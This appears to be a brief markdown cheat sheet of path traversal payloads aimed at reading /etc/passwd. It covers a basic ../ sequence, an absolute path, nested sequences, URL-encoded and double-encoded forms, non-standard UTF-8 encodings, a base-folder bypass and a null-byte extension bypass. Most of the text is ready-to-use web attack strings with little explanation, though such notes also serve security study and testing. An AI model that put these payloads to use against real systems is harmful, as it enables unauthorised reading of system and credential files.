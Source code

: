## basic

> `../../../etc/passwd`

# Common obstacles 

## traversal sequences blocked
#### absolute path
> `/etc/passwd`

#### nested traversal sequences 
> `....//....//....//etc/passwd`

#### URL encode
- This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`
> `..%252f..%252f..%252fetc/passwd`

## expected base folder

example: `/var/www/images` 
> `filename=/var/www/images/../../../etc/passwd`

## expected file extension

example: `.png`
> `filename=../../../etc/passwd%00.png`